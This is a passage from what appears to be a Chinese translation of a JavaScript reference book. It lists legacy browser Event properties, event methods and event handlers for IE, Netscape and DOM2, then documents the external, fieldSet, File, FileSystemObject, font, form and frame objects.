-   **screenX** 事件发生时相对于整个屏幕的水平位置（像素）。在 Netscape 浏览器中该属性是只读的。(N4+, MOZ, IE4+, DOM2, ReadOnly in Netscape)
-   **screenY** 事件发生时相对于整个屏幕的垂直位置（像素）。在 Netscape 浏览器中该属性是只读的。(N4+, MOZ, IE4+, DOM2)
-   **shiftKey** 布尔值，指示在事件期间 SHIFT 键是否被按下。在 Netscape 浏览器中该属性是只读的。(IE4+, MOZ/N6+, DOM2)
-   **shiftLeft** 布尔值，指示在事件期间左 SHIFT 键是否被按下。(IE5.5+ Windows only)
-   **srcElement** 指向作为事件目标的元素对象的引用。(IE4+)
-   **srcFilter** 包含触发 **onfilterevent** 的 CSS 过滤器名称的字符串。(IE4+，但需注意后续版本中过滤器实现的变化)
-   **srcUrn** 包含触发事件的 DHTML 行为 URN 的字符串。(IE5+)
-   **target** 只读引用，指向事件发生的对象。(N4+, Moz, DOM2)
-   **timeStamp** 只读属性，包含事件发生的时间，以 epoch 以来的毫秒数表示。(MOZ/N6+, DOM2)
-   **toElement** 指向用户正在移动鼠标指向的对象的引用（例如，在 **onmouseout** 期间）。(IE4+)
-   **type** 包含事件类型（例如，"click"）的字符串。在 Netscape 中该属性是只读的。(N4+, MOZ, IE4+, DOM2)
-   **view** 只读引用，指向包含事件发生对象的窗口或框架。(MOZ/N6+, DOM2)
-   **wheelDelta** 只读数值，始终是 120 的整数倍。该值指示导致事件的鼠标轮旋转的距离。正值表示远离用户旋转，负值表示朝向用户旋转。(IE5.5+)
-   **which** 只读属性，用于鼠标事件时包含指示使用哪个鼠标按键的数值（1 为左键，2 为中键，3 为右键）；用于键盘事件时，包含按下的键的 Unicode（数值）值。(N4+, MOZ)
-   **x** 在 Netscape 中与 **layerX** 相同。在 IE 中，鼠标指针相对于目标元素父元素的 *x* 坐标（像素）。在 Netscape 4 中此属性是只读的。(N4, IE4+)


+   - **y** 与 **layerY** 相同。在 IE 中，表示鼠标指针相对于目标元素父元素的 *y* 坐标，单位为像素。此属性在 Netscape 4 中为只读。（N4、IE4+）

#### 方法

与事件处理相关的方法有很多种，且在不同浏览器之间存在显著差异。第 11 章对此进行了详细介绍。这里我们按浏览器分组总结大部分重要问题。

#### Internet Explorer 事件方法

以下是 Internet Explorer 支持的事件相关方法。有关 Internet Explorer 对象模型的说明，请参见第 11 章。

**attachEvent(*whichHandler*, *theFunction*)** 将函数 *theFunction* 附加为由字符串 *whichHandler* 指定的处理程序。*whichHandler* 参数指定事件处理程序的名称，该处理程序在触发时执行 *theFunction*。例如，要将 *myHandler* 作为 **Document** 的 **onclick** 处理程序附加，你可以这样写

```
document.attachEvent("onclick", myHandler);
```

使用此方法附加的处理程序在任何设置为 HTML 属性或直接设置到对象相应 **on** 属性中的处理程序之后执行。可以使用此方法附加多个处理程序，但不保证它们的执行顺序。此方法返回一个布尔值，指示附加是否成功。支持于 IE5+（JScript 5.0+）。

**detachEvent(*whichHandler*, *theFunction*)** 指示对象停止将函数 *theFunction* 作为由字符串 *whichHandler* 指定的事件的处理程序执行。此方法用于解除使用 **attachEvent()** 附加到对象的处理程序。例如，要解除作为 **Document** 的 **onclick** 处理程序附加的函数 *myHandler*（使用 **attachEvent()**），你可以使用

```
document.detachEvent("onclick", myHandler);
```

支持于 IE5+（JScript 5.0+）。

**fireEvent(*handler*[, *event*])** 使对象由字符串 *handler* 指定的事件处理程序触发。如果提供了 **Event** 实例作为 *event* 参数，则传递给目标对象的 *handler* 的 **Event** 实例将反映 *event* 的属性。此方法根据事件是否最终被取消返回 **true** 或 **false**。以这种方式创建的事件遵循所创建事件的正常冒泡和取消规则。此方法用于将事件重定向到新目标（或在该目标处创建全新事件），方法是将其作为该目标的方法调用。例如，要触发页面上第一个图像的 **onclick** 处理程序，你可以这样写

```
document.images[0].fireEvent("onclick");
```

请注意，无论是否提供了 *event* 参数，所创建的 **Event** 实例的 **srcElement** 都设置为调用此方法的对象。支持于 IE5.5+（JScript 5.5+）。

**releaseCapture()** 禁用使用 **setCapture()** 启用的全局鼠标事件捕获。如果将此方法作为 **Document** 的方法调用，当前捕获所有鼠标事件的元素将停止这样做。当然，你可以将此函数作为正在捕获的对象的方法调用以达到相同效果。但是，能够在 **Document** 上调用它的能力使程序员无需确定当前究竟是哪个元素正在捕获。当没有任何元素正在全局捕获鼠标事件时调用此方法没有任何效果。支持于 IE5+（JScript 5.0+）。

**setCapture([*containerCapture*])** 使文档中发生的所有鼠标事件都被发送到此对象。**Event** 实例的 **srcElement** 将始终反映事件的原始目标，但所有其他处理程序和冒泡都会被绕过。在 Internet Explorer 5.5+ 中，你可以将 containerCapture 指定为 **false**，这使元素内包含的鼠标事件正常运作。但是，元素外部的鼠标事件仍然被无条件捕获。此方法用于将所有鼠标事件定向到某个对象，而该对象本来无法捕获这些事件。例如，如果有元素的鼠标事件需要捕获，但这些元素不是该对象的子元素，则需要使用此方法，因为来自其他元素的冒泡事件将不会到达它。请注意，当用户滚动页面、将焦点给另一个窗口、使用对话框或激活上下文菜单时，捕获会自动禁用。因此，如果你希望保持捕获状态，始终建议将 **Document** 的 **onlosecapture** 处理程序设置为重新启用捕获。支持于 IE5+（JScript 5.0+）。

#### Netscape 事件方法

以下是 Netscape 4 系列浏览器支持的事件相关方法。有关 Netscape 4 事件模型的说明，请参见第 11 章。

**captureEvents(**_eventMask_**)** 指示调用该方法的对象（**Layer**、**Window** 或 **Document**）捕获由 _eventMask_ 指定的事件。请注意，你仍然必须手动将对象的适当处理程序（例如 **document.onunload**）设置为事件发生时执行的函数。_eventMask_ 参数是 **Event** 对象静态属性的位掩码，这些属性在下表给出。例如，要在 **Document** 处捕获 **submit** 和 **reset** 事件，你可以这样写

```
document.captureEvents(Event.SUBMIT | Event.RESET);
```

下表列出了 _eventMask_ 可能的位掩码值。它们作为 **Event** 对象的静态值访问。

| ABORT | ERROR | MOUSEDOWN | RESET |
| BLUR | FOCUS | MOUSEMOVE | RESIZE |
| CHANGE | KEYDOWN | MOUSEOUT | SELECT |
| CLICK | KEYPRESS | MOUSEOVER | SUBMIT |
| DBLCLICK | KEYUP | MOUSEUP | UNLOAD |
| DRAGDROP | LOAD | MOVE |  |

**handleEvent(**_event_**)** 根据作为参数传递的 **Event** 实例 _event_ 触发对象的事件处理程序。调用此方法是为了将 _event_ 重定向到调用该方法的对象。例如，表单的 **onsubmit** 处理程序可以将 **submit** 事件传递给页面上的第一个表单

```
<form onsubmit="document.forms[0].handleEvent(event)">...</form>
```

支持于 N4（JavaScript 1.2）。

**releaseEvents(**_eventMask_**)** 指示调用该方法的对象（**Layer**、**Window** 或 **Document**）停止捕获由 _eventMask_ 指定的事件。使用此方法后，你不必重置已释放的对象事件处理程序，因为对象将停止捕获事件，即使它定义了处理程序。_eventMask_ 是本节前面 **captureEvents()** 表格中定义的 **Event** 对象的静态属性的位掩码。例如，要停止在 **Document** 级别捕获 **error** 和 **click** 事件，你可以使用

```
document.releaseEvents(Event.ERROR | Event.CLICK);
```

支持于 N4+（JavaScript 1.2+）。

**routeEvent(**_event_**)** 将 **Event** 实例 _event_ 正常传递下去，沿对象层级进行处理。此方法由 **Layer**、**Window** 或 **Document** 使用，以选择不处理特定事件。例如，如果事件被捕获后，经检查确定不感兴趣，则调用此方法将事件继续向下传递层级，供（可能存在的）其他处理程序处理。支持于 N4+（JavaScript 1.2+）。

#### DOM2 事件方法

以下方法对 DOM 下的许多（如果不是全部）节点通用。完整规范可在 http://www.w3.org/DOM/ 找到。

**addEventListener(**_whichEvent_, _handler_, _direction_**)** 指示对象在发生由字符串 _whichEvent_ 指定类型的事件（例如 "click"）时执行函数 _handler_。_direction_ 参数是一个布尔值，指示处理程序应在捕获阶段（**true**）还是冒泡阶段（**false**）触发。可以通过多次使用此方法为同一事件附加多个处理程序。监听器（事件处理程序）可以绑定到文本节点以及元素节点。支持于 N6+（JavaScript 1.5+）、DOM2。

**dispatchEvent(**_event_**)** 使 **Event** 实例 _event_ 由调用此函数作为其方法的对象的适当处理程序处理。如果最终处理 _event_ 的任何处理程序返回 **false** 或调用 **preventDefault()**，则此方法返回 **false**。调用此方法的节点成为 _event_ 的新目标。此方法用于将事件重定向到树中的另一个节点。支持于 N6+（JavaScript 1.5+）、DOM2。

**preventDefault()** 在处理器中调用时，此方法的作用是取消与事件关联的默认操作。调用此方法与从处理程序返回 **false** 相同。请注意，在 DOM2 中，一旦处理程序返回 **false** 或调用此方法，无论处理该事件的其他处理程序返回什么值，与事件关联的默认操作都不会发生。支持于 N6+（JavaScript 1.5+）、DOM2。

**removeEventListener(**_whichEvent_, _handler_, _direction_**)** 移除函数 _handler_ 作为由字符串 _whichEvent_ 指定的事件（例如 "click"）的处理程序，对应由布尔值 _direction_ 指定的阶段。请注意，_direction_ 必须与传递给

 **addEventListener()** 用于将事件处理程序附加到对象时。在 N6+ (JavaScript 1.5+)、DOM2 中支持。

**stopPropagation()** 在事件处理程序中调用时，在当前处理程序执行完毕后，会阻止事件的正常传播。此方法仅适用于那些可取消的事件。在 N6+ (JavaScript 1.5+)、DOM2 中支持。

#### 注意事项

在 Netscape 中，如果你拥有 **UniversalBrowserWrite** 权限（参见第 22 章），可以设置 **Event** 实例的大多数属性。另外，上面列出的大多数 IE 属性在 IE4 中是只读的，但在 IE5+ 中是可变的。

#### 事件处理程序

事件处理程序是与对象关联的 JavaScript 代码，当用户或系统事件在该对象上发生时“触发”。文档对象通常支持大量的事件处理程序，这些程序涵盖了广泛的用户操作，以及响应浏览器或 DOM 事件（例如页面完成加载）的内在或系统事件。一些浏览器对象，最著名的是 **Window**，还支持各种处理程序，使其能够处理其包含的任何文档的事件，例如，如果窗口由多个框架组成。

#### HTML 4 事件

标准 HTML 4 事件在此列出。根据 Internet Explorer 4+ 的事件模型，有些事件可以被取消，有些事件会沿层级向上冒泡。每个 HTML 4 事件在 Internet Explorer 4+ 下的行为连同其关联的处理程序一并说明（例如，**blur** 事件的行为与 **onblur** 处理程序一起给出）。

- **onblur** 当元素失去焦点时触发，意味着用户已将焦点移动到另一个元素，通常是通过单击或按 Tab 键切换。在 IE4+ 中不冒泡，且不可取消。
- **onchange** 当表单字段失去焦点并且其值在拥有焦点时已更改时触发。在 IE4+ 中不冒泡，但可取消。
- **onclick** 当元素被单击时触发。在 IE4+ 中冒泡，且可取消。
- **ondblclick** 当元素被双击时触发。在 IE4+ 中冒泡，且可取消。
- **onfocus** 当元素获得焦点时触发，通常是在通过单击或按 Tab 键选择进行操作或数据输入时。在 IE4+ 中不冒泡，且不可取消。
- **onkeydown** 当用户按下键且元素具有焦点时触发。在 IE4+ 中冒泡，且可取消。
- **onkeypress** 当用户按下或按住键（在 Internet Explorer 中是字母数字键）且元素具有焦点时触发。在 IE4+ 中冒泡，且可取消。
- **onkeyup** 当用户释放键且元素具有焦点时触发。在 IE4+ 中冒泡，但不可取消。
- **onload** 当元素完成加载时触发。在 IE4+ 中不冒泡，且不可取消。
- **onmousedown** 当鼠标按钮被按下且元素具有焦点时触发。在 IE4+ 中冒泡，且可取消。
- **onmousemove** 当鼠标移动且光标位于元素上时触发。在 IE4+ 中冒泡，但不可取消。
- **onmouseout** 当用户将鼠标移开元素时触发。在 IE4+ 中冒泡，但不可取消。
- **onmouseover** 当用户将鼠标移到元素上时触发。在 IE4+ 中冒泡，且可取消。
- **onmouseup** 当鼠标按钮被释放且元素具有焦点时触发。在 IE4+ 中冒泡，且可取消。
- **onreset** 当表单被重置时触发，通常是用户按下重置按钮的结果。在 IE4+ 中不冒泡，但可取消。
- **onselect** 当用户选择文本或其他内容时触发，通常是用鼠标突出显示文本。在 IE4+ 中不冒泡，但可取消。
- **onsubmit** 在表单提交之前触发。在 IE4+ 中不冒泡，但可取消。
- **onunload** 在对象卸载之前触发（例如，当跟随链接转到另一个页面时）。在 IE4+ 中不冒泡，且不可取消。

#### DOM 事件

DOM2 支持标准的 HTML 4 事件。它们在 DOM2 事件模型下的行为如下表所示。

| 事件 | 冒泡？ | 可取消？ |
|-------|----------|-------------|
| **Abort** | 是 | 否 |
| **Blur** | 否 | 否 |
| **change** | 是 | 否 |
| **Click** | 是 | 是 |
| **Error** | 是 | 否 |
| **Focus** | 否 | 否 |
| **Load** | 否 | 否 |
| **mousedown** | 是 | 是 |
| **mouseup** | 是 | 是 |
| **mouseover** | 是 | 是 |
| **mousemove** | 是 | 是 |
| **Reset** | 是 | 否 |
| **Resize** | 是 | 否 |
| **Scroll** | 是 | 否 |
| **Select** | 是 | 否 |
| **Submit** | 是 | 是 |
| **Unload** | 否 | 否 |

DOM2 还支持文档部分发生的文档变更事件以及允许任意元素具有等效于为表单字段定义的 **onfocusin/onfocusout** 处理程序的 GUI 事件。这些事件应使用标准 DOM 方法进行绑定，因为对相应的事件处理程序属性没有支持。变更事件列在下表中。

| 事件 | 冒泡？ | 可取消？ | 描述 |
|-------|----------|-------------|-------------|
| **DOMFocusIn** | 是 | 否 | 当节点获得焦点时触发。 |
| **DOMFocusOut** | 是 | 否 | 当节点失去焦点时触发。 |
| **DOMSubtreeModified** | 是 | 否 | 依赖于实现；当节点子树的一部分被修改时触发。 |
| **DOMNodeInserted** | 是 | 否 | 当节点作为另一个节点的子节点插入时触发。 |
| **DOMNodeRemoved** | 是 | 否 | 当节点从其父节点中移除时触发。 |
| **DOMNodeRemovedFromDocument** | 否 | 否 | 当节点即将从文档中移除时触发。 |
| **DOMNodeInsertedIntoDocument** | 否 | 否 | 当节点被插入文档时触发。 |
| **DOMAttrModified** | 是 | 否 | 当节点的一个属性被修改时触发。 |
| **DOMCharacterDataModified** | 是 | 否 | 当节点包含的数据被修改时触发。 |

#### Netscape 扩展事件

以下事件不属于任何标准，但被 Netscape 浏览器支持。

- **onabort** 当元素的加载在完成前被取消时触发。
- **ondragdrop** 当某些内容被拖放到对象上时触发。
- **onerror** 当元素发生运行时错误时触发。
- **onmove** 当用户或脚本移动窗口或框架时触发（仅限 Netscape 4）。
- **onpaint** 此处理程序的含义不明确。可能与 XUL 功能相关（仅限 Netscape 6+/Moz）。
- **onresize** 当对象即将被调整大小时触发（例如，在用户调整窗口大小后立即）。
- **onscroll** 当可滚动对象被重新定位时触发（仅限 Netscape 6）。

#### Internet Explorer 扩展事件

以下事件不属于任何标准，但被 Internet Explorer 支持。根据 Internet Explorer 4+ 的事件模型，有些事件可以被取消，有些事件会沿层级向上冒泡。每个扩展事件在 Internet Explorer 4+ 下的行为连同其关联的处理程序一并说明（例如，**abort** 事件的行为与 **onabort** 处理程序一起给出）。

- **onabort** 当对象的加载在完成前被取消时触发。在 IE4+ 中不冒泡，但可取消。
- **onactivate** 当对象被设置为活动元素时触发。在 IE4+ 中冒泡，但不可取消。
- **onafterprint** 在对象被打印（或预览）后立即触发。在 IE4+ 中不冒泡，且不可取消。
- **onafterupdate** 在数据绑定对象成功更新数据源对象中的关联数据后触发。在 IE4+ 中冒泡，但不可取消。
- **onbeforeactivate** 在对象被设置为活动元素之前立即触发。在 IE4+ 中冒泡，且可取消。
- **onbeforecopy** 在源对象上触发，就在选择内容复制到系统剪贴板之前。在 IE4+ 中冒泡，且可取消。
- **onbeforecut** 在源对象上触发，在选择内容从文档剪切到剪贴板（或从文档中删除）之前。在 IE4+ 中冒泡，且可取消。
- **onbeforedeactivate** 在 **activeElement** 从当前对象更改为父文档中的另一个对象之前立即触发。在 IE4+ 中冒泡，且可取消。
- **onbeforeeditfocus** 在元素获得编辑焦点之前触发。在 IE4+ 中冒泡，且可取消。
- **onbeforepaste** 在目标对象上触发，在选择内容从系统剪贴板粘贴之前。在 IE4+ 中冒泡，且可取消。
- **onbeforeprint** 在对象关联的文档打印或打印预览之前触发。在 IE4+ 中不冒泡，且不可取消。
- **onbeforeunload** 在页面卸载之前触发（就在 **unload** 处理程序之前）。在 IE4+ 中不冒泡，但可取消。
- **onbeforeupdate** 在数据绑定对象更新数据源对象中的关联数据之前触发。在 IE4+ 中冒泡，且可取消。
- **onbounce** 在交替的 `<marquee>` 上触发，在内容到达窗口的一侧之前。在 IE4+ 中不冒泡，但可取消。
- **oncellchange** 当数据提供程序中的数据更改时触发。在 IE4+ 中冒泡，但不可取消。
- **oncontextmenu** 当用户在对象上单击鼠标右键，打开上下文菜单时触发。在 IE4+ 中冒泡，且可取消。
- **oncontrolselect** 在对象被选中之前立即触发。在 IE4+ 中冒泡，且可取消。
- **oncopy** 当用户将其（或包含它的选择）复制到系统剪贴板时，在对象上触发。在 IE4+ 中冒泡，且可取消。


 - **oncut** 当用户将对象（或包含该对象的选择内容）剪切到系统剪贴板时触发。在 IE4+ 中会冒泡且可取消。
- **ondataavailable** 当数据从异步数据源对象到达时触发。在 IE4+ 中会冒泡但不可取消。
- **ondatasetchanged** 当数据源对象暴露的数据集发生变化时触发。在 IE4+ 中会冒泡但不可取消。
- **ondatasetcomplete** 用于指示数据源对象的所有数据均已可用时触发。在 IE4+ 中会冒泡但不可取消。
- **ondeactivate** 当**activeElement**从当前对象更改为父文档中的另一对象时触发。在 IE4+ 中会冒泡但不可取消。
- **ondrag** 当对象正在被拖动时持续触发。在 IE4+ 中会冒泡且可取消。
- **ondragend** 当正在拖动的对象在拖动操作结束时被释放时触发。在 IE4+ 中会冒泡且可取消。
- **ondragenter** 当用户将对象拖入某个有效的放置目标对象时，在该对象上触发。在 IE4+ 中会冒泡且可取消。
- **ondragleave** 当用户将对象拖出某个有效的放置目标对象时，在该对象上触发。在 IE4+ 中会冒泡且可取消。
- **ondragover** 当用户持续将对象悬停在某个有效的放置目标对象上时，在该对象上触发。在 IE4+ 中会冒泡且可取消。
- **ondragstart** 当用户开始拖动操作，即将拖动对象时触发。在 IE4+ 中会冒泡且可取消。
- **ondrop** 当拖动操作结束时，有东西被放置到对象上时触发。在 IE4+ 中会冒泡且可取消。
- **onerror** 当对象内部或对象处发生运行时错误时触发。在 IE4+ 中不会冒泡但可取消。
- **onerrorupdate** 当数据源对象中更新关联数据发生错误时，在数据绑定对象上触发。在 IE4+ 中会冒泡但不可取消。
- **onfilterchange** 当对象的 CSS 滤镜状态改变或过渡完成时触发。在 IE4+ 中不会冒泡且不可取消。
- **onfinish** 当 **\<marquee\>** 元素的循环完成时触发。在 IE4+ 中不会冒泡但可取消。
- **onfocusin** 在元素即将获得焦点之前触发（在 **focus** 事件之前）。在 IE4+ 中会冒泡但不可取消。
- **onfocusout** 在当前焦点元素失去焦点并立即将焦点转移到另一元素时触发。在 IE4+ 中会冒泡但不可取消。
- **onhelp** 当浏览器为活动窗口时用户按下 F1 键触发。在 IE4+ 中会冒泡且可取消。
- **onlayoutcomplete** 当打印或打印预览布局过程完成将源文档内容填充到当前 **LayoutRect** 对象时触发。在 IE4+ 中会冒泡且可取消。
- **onlosecapture** 当对象失去通用鼠标捕获时触发。在 IE4+ 中不会冒泡且不可取消。
- **onmouseenter** 当用户将鼠标指针移入对象时触发。（与 **onmouseover** 不同，因为 **mouseenter** 事件不会冒泡。）在 IE4+ 中不会冒泡且不可取消。
- **onmouseleave** 当用户将鼠标指针移到对象边界之外时触发。（与 **onmouseout** 不同，因为 **mouseleave** 事件不会冒泡。）在 IE4+ 中不会冒泡且不可取消。
- **onmousewheel** 当鼠标滚轮旋转时触发。在 IE4+ 中会冒泡且可取消。
- **onmove** 当对象移动时触发。在 IE4+ 中会冒泡但不可取消。
- **onmoveend** 当对象停止移动时触发。在 IE4+ 中会冒泡但不可取消。
- **onmovestart** 在对象开始移动之前立即触发。在 IE4+ 中会冒泡且可取消。
- **onpaste** 当用户将剪贴板中的数据粘贴到对象中时触发。在 IE4+ 中会冒泡且可取消。
- **onpropertychange** 当对象的属性发生变化时触发。在 IE4+ 中不会冒泡且不可取消。
- **onreadystatechange** 当对象的 **readyState** 发生变化时触发。在 IE4+ 中不会冒泡且不可取消。
- **onresize** 当对象的大小即将改变时触发（例如，用户调整窗口大小之后）。在 IE4+ 中不会冒泡且不可取消。
- **onresizeend** 当用户完成对选择中对象尺寸的调整时触发。在 IE4+ 中不会冒泡且不可取消。
- **onresizestart** 当用户开始调整选择中对象的尺寸时触发。在 IE4+ 中不会冒泡但可取消。
- **onrowenter** 用于指示数据源中的当前行已更改，且对象上有新的数据值可用时触发。在 IE4+ 中会冒泡但不可取消。
- **onrowexit** 在数据源控件更改对象中的当前行之前立即触发。在 IE4+ 中不会冒泡但可取消。
- **onrowsdelete** 当行即将从记录集中删除时触发。在 IE4+ 中会冒泡但不可取消。
- **onrowsinserted** 在当前记录集中插入新行之后立即触发。在 IE4+ 中会冒泡但不可取消。
- **onscroll** 当用户在滚动条的滚动框上重新定位可滚动对象时触发。在 IE4+ 中不会冒泡且不可取消。
- **onselectionchange** 当文档的选择状态发生任何变化时触发。在 IE4+ 中不会冒泡且不可取消。
- **onselectstart** 当对象正在被选择时触发。在 IE4+ 中会冒泡且可取消。
- **onstart** 在每次循环开始时对 **\<marquee\>** 元素触发。在 IE4+ 中不会冒泡且不可取消。
- **onstop** 当用户点击停止按钮或离开网页时触发。在 IE4+ 中不会冒泡且不可取消。

### external（专有浏览器对象）

该对象提供了调用原生代码的方法。它主要在 IE 被用作组件时使用，但也可与浏览器辅助对象（BHO）结合使用，以及访问某些浏览器功能，如添加书签。有关此对象的完整详细信息，请参阅 MSDN 上的 Microsoft 文档。

#### 属性

- **menuArguments** 返回执行上下文菜单项的 **window** 对象。（IE4+）

#### 方法

- **AddChannel(*url*)** 显示一个对话框，允许用户添加或更改频道。参数 *url* 引用频道定义格式（CDF）文件。Internet Explorer 的推送频道技术现在已很少使用。
- **AddDesktopComponent(*url*, *type* [, *left*] [, *top*] [, *width*] [, *height*])** 将 *url* 定义的网站或图像添加到活动桌面。*type* 属性设置为 "image" 或 "website"，可选参数指示要添加组件的位置和大小。
- **AddFavorite(*url*)** 提示用户将指定的 URL 添加到收藏夹。
- **AutoCompleteSaveForm(*form*)** 将传递的 **form** 对象中的数据保存到 IE 的自动表单完成系统。（IE5+）
- **AutoScan(*query*, *errorURL* [, *target*])** 尝试使用 IE 的标准 URL 扩展来加载 *query* 值。例如，"microsoft" 的查询将被转换为 www.microsoft.com。如果无法连接到该站点，则应显示 *errorURL*；否则，浏览器使用默认错误页面。可选的 **target** 参数用于指定加载页面的窗口或框架。（IE5+）
- **ImportExportFavorites(*importExport*, *url*)** 允许导入和导出浏览器收藏夹或书签。*importExport* 值为 true 表示导入，false 表示导出。*url* 参数指示导出到或导入自的路径或 URL。系统将提示用户允许此操作。
- **IsSubscribed(*url*)** 返回一个布尔值，指示用户是否订阅了通过传递的 *url* 参数引用的 CDF 文件所定义的频道。
- **NavigateAndFind(*url*, *searchText*, *target*)** 导航到指定的 *url* 并查找并高亮显示传递的 *searchText*。如果要在另一框架或窗口中执行此操作，则应设置 *target* 值。
- **ShowBrowserUI(*type*, *null*)** 打开一个定义的 *type* 类型的浏览器相关对话框。*type* 的允许值包括 "LanguageDialog"、"OrganizeFavorites"、"PrivacySettings" 和 "ProgramAccessAndDefaults"。第二个 **null** 值参数 strangely 是必需的。PrivacySettings 仅在 IE6 或更高版本中支持，ProgramAccessAndDefaults 需要 Windows XP SP1 或更高版本。（IE5+）

#### 支持

IE4+

#### 说明

不鼓励使用此对象，因为它不仅是专有的，而且误用时具有重大的安全影响。

### fieldSet, HTMLFieldSetElement（文档对象）

该对象对应于文档中的 **\<fieldset\>**（表单字段分组）元素。可通过标准 DOM 方法（如 **document.getElementById()**）访问此对象。

#### 属性

除了本节开头的 **通用 HTML 元素** 对象中的属性外，该对象还具有以下属性：

- **form** 对包含该元素的 **Form** 的引用。（IE6+, MOZ/N6+, DOM1）

#### 方法

该对象仅有本节开头的 **通用 HTML 元素** 对象中列出的方法。

#### 支持

Internet Explorer 4+、Mozilla/Netscape 6+、DOM1 中支持。

### File, FileUpload, HTMLInputElement（文档对象）

该对象对应于文档中的 **\<input type="file"\>** 元素。可通过标准 DOM 方法（例如 **document.getElementById()**）或更常见地通过其所在表单的 **elements[]** 数组来访问此对象。

#### 属性

除了本节开头的 **通用 HTML 元素** 对象中的属性外，该对象还具有以下属性：

- **accept** 包含服务器将接受的此文件上传的逗号分隔 MIME 类型列表的字符串。（MOZ/N6+, DOM1）
- **accessKey** 指示为元素提供焦点的热键的单字符字符串。（IE4+, MOZ/N6+, DOM1）
- **defaultValue** 包含 **value** 属性原始值的字符串。（IE4+）
- **disabled** 指示元素是否禁用（变灰）的布尔值。（IE4+, MOZ/N6+, DOM1）
- **form** 对包含该按钮的 **Form** 的只读引用。（IE4+, MOZ, N3+, DOM1）
- **name** 包含元素 **name** 属性的字符串。（IE4+, MOZ, N3+, DOM1）
- **size** 指示以像素为单位的宽度的字符串。（IE4+, MOZ/N6+, DOM1）
- **tabIndex** 指示对象的 Tab 键顺序的数值。（IE4+, MOZ/N6+, DOM1）

 - **type** 只读字符串值，表示字段的类型，"file"。(IE4+, MOZ, N3+, DOM1)
- **value** 只读字符串，包含文件名。(IE4+, MOZ, N3+, DOM1)
- **width** 输入区域的宽度，以像素为单位。(IE4+)

#### 方法

此对象除了本章节开头的**通用 HTML 元素**对象中的方法外，还具有以下方法：

- **blur()** 使按钮失去焦点。(IE4+, MOZ, N3+, DOM1)
- **focus()** 使按钮获得焦点。(IE4+, MOZ, N3+, DOM1)
- **handleEvent(*event*)** 使**Event**实例*event*由对象的适当处理程序处理。(仅限 N4)
- **select()** 选择作为输入的文本（文件名）。(IE4+, MOZ/N6+, DOM1)

#### 支持

支持于 Internet Explorer 4+、Mozilla、Netscape 3+、DOM1。

### FileSystemObject（专有内置对象）

该对象为 IE/Windows 环境中的脚本提供对本地文件系统的访问（当然，受安全限制）。有关此对象的完整文档，请参阅 Microsoft 在 MSDN 上的文档，或参阅第 21 章以获取一些基本示例。

#### 说明

这*不是*一个 ECMAScript 对象。它是 Microsoft 专有的内置对象。

### font, HTMLFontElement（文档对象）

此对象对应于文档中的 **<font>** 元素。通过标准 DOM 方法（如 **document.getElementById()**）访问此对象。

#### 属性

此对象除了本章节开头的**通用 HTML 元素**对象中的属性外，还具有以下属性：

- **color** 字符串，保存页面的默认文本颜色。(IE4+, MOZ/N6+, DOM1)
- **face** 字符串，保存一个或多个默认字体名称的逗号分隔列表。(IE4+, MOZ/N6+, DOM1)
- **size** 字符串，保存默认字体大小（HTML 1–7 或相对的 +*n*/–*n* 语法）。(IE3+, MOZ/N6+, DOM1)

#### 方法

此元素仅具有本章节开头的**通用 HTML 元素**对象中列出的方法。

#### 支持

支持于 Internet Explorer 4+、Mozilla/Netscape 6+、DOM1。

### form, Form, HTMLFormElement（文档对象）

此对象对应于文档中的 **<form>** 标签。可以使用标准 DOM 方法来访问此对象，但更常用的是使用 **Document** 的 **forms[]** 数组。

#### 属性

此对象除了本章节开头的**通用 HTML 元素**对象中的属性外，还具有以下属性：

- **acceptCharset** 字符串，指定服务器处理表单时将接受的输入数据的字符编码列表。(IE5+, MOZ/N6+, DOM1)
- **action** 字符串，包含表单将提交到的 URL。(IE3+, MOZ, N2+, DOM1)
- **autocomplete** 字符串，指定 IE 的特定表单自动完成是"on"还是"off"。(IE5+)
- **elements[]** 只读集合，按源代码顺序包含表单中的所有字段（控件）。(IE3+, MOZ, N2+, DOM1)
- **encoding** 字符串，指定提交的表单数据的 MIME 类型。(IE3+, MOZ, N2+)
- **enctype** 字符串，指定提交的表单数据的 MIME 类型。(MOZ/N6+, IE6+, DOM1)
- **length** **elements[]** 集合中的条目数（表单的字段数）。该属性为只读，但如果使用 DOM 在表单中添加或删除元素，其值可能会更改。(IE3+, MOZ, N2+, DOM1)
- **method** 字符串，表示用于提交表单数据的 HTTP 方法，"get"或"post"。(IE3+, MOZ, N2+, DOM1)
- **name** 字符串，保存表单的 **name** 属性。(IE3+, MOZ, N2+, DOM1)
- **target** 字符串，指示应显示表单提交结果的窗口或框架的名称。(IE3+, MOZ, N2+, DOM1)

#### 方法

此对象除了本章节开头的**通用 HTML 元素**对象中的方法外，还具有以下方法：

- **reset()** 将所有表单字段重置为其原始值。(IE4+, MOZ, N3+, DOM1)
- **submit()** 使表单提交发生。(IE3+, MOZ, N2+, DOM1)

#### 支持

支持于 Internet Explorer 3+、Mozilla、Netscape 2+ 和 DOM1。

### frame, HTMLFrameElement（文档对象）

此对象对应于文档中的 **<frame>** 元素。它不对应于 Frame 对象（**document.frames[]** 的条目由该对象组成）。区别在于，此对象对应于文档中 **<frame>** 标签的实例，而 **Frame** 对应于框架内容实际显示的 **Window** 对象。使用标准 DOM 方法来访问此对象。

#### 属性

此对象除了本章节开头的**通用 HTML 元素**对象中的属性外，还具有以下属性：

- **allowTransparency** 布尔值，指定框架的背景是否可以透明（可以设置为任何颜色）。(IE5.5+)
- **borderColor** 字符串，指定框架周围边框的颜色。(IE4+)
- **contentDocument** 对与此框架内容对应的 **Document** 的只读引用。(MOZ/N6+)
- **contentWindow** 对与此框架对应的 **Window** 的只读引用。(IE5.5+, MOZ/N6+)
- **dataFld** 字符串，指定数据源的哪个字段绑定到该元素。(IE4+)
- **dataSrc** 字符串，包含数据绑定的数据源。(IE4+)
- **frameBorder** 字符串，包含"0"（无边框）或"1"（显示边框）。(IE4+, MOZ/N6+, DOM1)
- **height** 框架的高度，以像素为单位。(IE5.5+)
- **longDesc** 字符串，包含框架的详细描述的 URI（供非视觉浏览器使用）。(IE6+, MOZ/N6+, DOM1)
- **marginHeight** 字符串，指定垂直边距，以像素为单位。将被 CSS 属性覆盖。(IE4+, MOZ/N6+, DOM1)
- **marginWidth** 字符串，指定水平边距，以像素为单位。将被 CSS 属性覆盖。(IE4+, MOZ/N6+, DOM1)
- **name** 字符串，保存框架的 **name** 属性。(IE4+, MOZ/N6+, DOM1)
- **noResize** 布尔值，指示用户无法调整框架大小。(IE4+, MOZ/N6+, DOM1)
